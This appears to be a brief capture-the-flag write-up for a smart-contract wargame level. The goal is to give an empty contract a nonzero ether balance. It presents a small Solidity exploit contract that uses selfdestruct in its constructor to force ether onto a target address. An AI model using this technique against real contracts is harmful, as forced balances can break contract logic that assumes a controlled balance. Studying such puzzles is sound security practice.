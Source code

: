 # Answer

Goal: Make balance great again (above 0).

## 1. Transfering eth to contract

The contract is seemingly empty of any functions, but we can call selfdestruct in any outside contract to force balance on to any address:

```solidity
contract ForceExploit {

    constructor (address targetAddr) payable {
        selfdestruct(payable(targetAddr));
    }
}
```

